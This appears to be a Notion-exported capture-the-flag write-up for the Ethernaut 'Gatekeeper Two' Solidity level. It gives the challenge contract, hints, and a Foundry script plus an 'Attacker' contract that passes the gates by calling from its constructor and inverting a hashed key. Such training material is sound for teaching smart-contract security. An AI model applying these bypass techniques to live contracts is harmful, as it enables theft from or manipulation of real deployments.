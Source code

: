 ```yaml
---
title: "Gatekeeper Two"
date: "2024-02-23"
lastmod: "2024-02-23T15:25:00.000Z"
draft: false
difficulty: "⭐⭐⭐"
prev: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
weight: 15
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/14"
next: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "d4a070f3-8b64-4143-a295-ecf4467fb7fa"
  created_time: "2024-02-23T12:55:00.000Z"
  last_edited_time: "2024-02-23T15:25:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel14.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "aa1cb61f-428e-4dc4-abad-06b3092cb0ce"
        name: "⭐⭐⭐"
        color: "green"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-23"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-23T15:25:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 15
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/14"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Naught-Coin-5013cfef45d646e693a6feaac127ac33"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Gatekeeper Two"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper Two"
          href: null
  url: "https://www.notion.so/Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
  public_url: null
UPDATE_TIME: "2024-02-23T20:57:46.065Z"
EXPIRY_TIME: "2024-02-23T21:57:38.637Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.


### Things that might help:

- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [here](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given
address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [here](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


Evm op codes: [https://www.evm.codes/?fork=shanghai](https://www.evm.codes/?fork=shanghai)


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/01b0d58a-bfc6-43bb-bfaf-44883de909fc/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240223%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240223T205738Z&X-Amz-Expires=3600&X-Amz-Signature=633fbf269a4dae14d30632050731ba29e21044f1f48d14ac7948ab41ef0f2c9a&X-Amz-SignedHeaders=host&x-id=GetObject)


![](https://prod-files-secure.s3.us-west-2.amazonaws.com/00345c33-b7f7-443a-aca8-598247fb6d93/fca58f0b-c3a4-4025-9aef-756a0e94ff30/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20240223%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20240223T205738Z&X-Amz-Expires=3600&X-Amz-Signature=79fad0ace04c29ae45b5408acea8b1a5e9fda44aa0c8a01d63dd7b6d26f5dcde&X-Amz-SignedHeaders=host&x-id=GetObject)


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker,GatekeeperTwo} from "../src/14.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_14");

        vm.startBroadcast(deployerPrivateKey);
        GatekeeperTwo gate = GatekeeperTwo(addr);
        new Attacker(address(gate));
        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/console.sol";

interface GatekeeperTwo {
  function enter(bytes8 _gateKey) external returns (bool);
}

contract Attacker {
  GatekeeperTwo gatekeeper;

  constructor(address _gatekeeper) {
    gatekeeper = GatekeeperTwo(_gatekeeper);
    bytes8 value = bytes8(keccak256(abi.encodePacked(address(this))));
    bytes8 gateKey = ~value; 
    // gateKey ^ value == type(uint64).max
    gatekeeper.enter(gateKey);
  }
}
```

